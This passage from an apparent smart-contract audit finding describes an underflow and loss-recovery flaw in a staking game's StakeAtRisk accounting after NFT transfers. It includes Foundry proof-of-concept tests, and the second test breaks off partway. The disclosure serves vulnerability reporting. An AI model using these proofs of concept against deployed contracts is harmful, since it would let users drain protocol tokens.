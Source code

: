 amountLost: 0
Alice recovers the past loss through NFT 2. Alice recovered past lost, which shouldn't be recovered, which means she steals the protocol's token.
This is PoC. You can add it to StakeAtRisk.t.sol and run it.

testPoC1 shows that a user with amountLost 0 cannot record a victory with the purchased NFT due to underflow.
testPoC2 shows that a user who already has stakeAtRisk due to another NFT in the same round can no longer record a win due to underflow.
testPoC3 shows that a user can recover losses from a past round by using a purchased NFT.
```solidity
function testPoC1() public {
    address seller = vm.addr(3);
    address buyer = vm.addr(4);
    
    uint256 stakeAmount = 3_000 * 10 ** 18;
    uint256 expectedStakeAtRiskAmount = (stakeAmount * 100) / 100000;
    _mintFromMergingPool(seller);
    uint256 tokenId = 0;
    assertEq(_fighterFarmContract.ownerOf(tokenId), seller);
    _fundUserWith4kNeuronByTreasury(seller);
    vm.prank(seller);
    _rankedBattleContract.stakeNRN(stakeAmount, tokenId);
    assertEq(_rankedBattleContract.amountStaked(tokenId), stakeAmount);
    vm.prank(address(_GAME_SERVER_ADDRESS));
    // loses battle
    _rankedBattleContract.updateBattleRecord(tokenId, 50, 2, 1500, true);
    assertEq(_stakeAtRiskContract.stakeAtRisk(0, tokenId), expectedStakeAtRiskAmount);

    // seller unstake and sell NFT to buyer
    vm.startPrank(seller);
    _rankedBattleContract.unstakeNRN(_rankedBattleContract.amountStaked(tokenId), tokenId);
    _fighterFarmContract.transferFrom(seller, buyer, tokenId);
    vm.stopPrank();

    // The buyer win battle but cannot write at onchain
    vm.expectRevert(abi.encodeWithSignature("Panic(uint256)", 0x11)); // expect arithmeticError (underflow)
    vm.prank(address(_GAME_SERVER_ADDRESS));
    _rankedBattleContract.updateBattleRecord(tokenId, 50, 0, 1500, true);

}

function testPoC2() public {
    address seller = vm.addr(3);
    address buyer = vm.addr(4);
    
    uint256 stakeAmount = 3_000 * 10 ** 18;
    uint256 expectedStakeAtRiskAmount = (stakeAmount * 100) / 100000;
    _mintFromMergingPool(seller);
    uint256 tokenId = 0;
    assertEq(_fighterFarmContract.ownerOf(tokenId), seller);
    _fundUserWith4kNeuronByTreasury(seller);
    vm.prank(seller);
    _rankedBattleContract.stakeNRN(stakeAmount, tokenId);
    assertEq(_rankedBattleContract.amountStaked(tokenId), stakeAmount);
    vm.prank(address(_GAME_SERVER_ADDRESS));
    // loses battle
    _rankedBattleContract.updateBattleRecord(tokenId, 50, 2, 1500, true);
    assertEq(_stakeAtRiskContract.stakeAtRisk(0, tokenId), expectedStakeAtRiskAmount);

    // seller unstake and sell NFT to buyer
    vm.startPrank(seller);
    _rankedBattleContract.unstakeNRN(_rankedBattleContract.amountStaked(tokenId), tokenId);
```
